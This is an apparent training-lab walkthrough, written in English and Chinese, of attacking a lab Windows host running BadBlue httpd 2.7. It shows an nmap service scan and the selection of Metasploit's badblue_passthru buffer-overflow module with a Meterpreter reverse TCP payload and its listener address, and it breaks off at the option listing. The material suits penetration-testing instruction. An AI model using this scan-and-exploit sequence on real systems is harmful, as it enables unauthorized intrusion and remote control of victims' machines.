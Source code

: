 Basic familiarity with Windows. 基本熟悉Windows。 
Basic Familiarity with Metasploit. 对Metasploit的基本熟悉。

Requirements 要求 

This task does not have any requirements. 此任务没有任何要求。

## 复现视频内容
Target IP Address : 10.0.19.113

```
root@attackdefense:~# nmap -sV -p 80 10.0.19.113
Starting Nmap 7.91 ( https://nmap.org ) at 2023-07-21 15:12 IST
Nmap scan report for 10.0.19.113
Host is up (0.0030s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    BadBlue httpd 2.7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.74 seconds
```

```
root@attackdefense:~# msfconsole -q
msf6 > search BadBlue 2.7

Matching Modules
================

   #  Name                                   Disclosure Date  Rank   Check  Description
   -  ----                                   ---------------  ----   -----  -----------
   0  exploit/windows/http/badblue_passthru  2007-12-10       great  No     BadBlue 2.72b PassThru Buffer Overflow


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/badblue_passthru

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/badblue_passthru) > show options

Module options (exploit/windows/http/badblue_passthru):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


```
